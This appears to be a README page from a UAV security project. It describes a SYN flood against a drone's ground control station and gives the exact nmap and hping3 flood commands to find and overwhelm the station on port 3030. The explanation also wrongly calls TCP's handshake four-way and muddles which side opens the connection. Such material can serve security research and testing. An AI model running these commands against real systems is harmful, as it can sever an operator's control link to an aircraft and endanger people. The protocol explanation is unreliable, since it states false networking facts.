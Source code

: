 # Network Flood Attack

The TCP protocol is one of the core protocols used in the UAV-GCS communication channel.
It involves a four-way handshake between the GCS and the UAV.
The first step in this handshake involves sending a `SYN` message from the GCS to the UAV.
The network flood attack uses this type of message to open a connection with the GCS, but no more further messages.
The result is the GCS keeps the connection open (as it expects a response) until a timeout has been reached.
By sending many `SYN` messages to the GCS at once, it is possible to overwhelm its network interface and block further communication.

## Attack

1. Find the IP address of the GCS using `nmap -sn 192.168.1.0/24 -oG - 192.168.1`.
2. On the attacker machine, use `sudo hping3 -S --flood -V -p 3030 <GCS address>` to send `SYN` messages to the GCS.

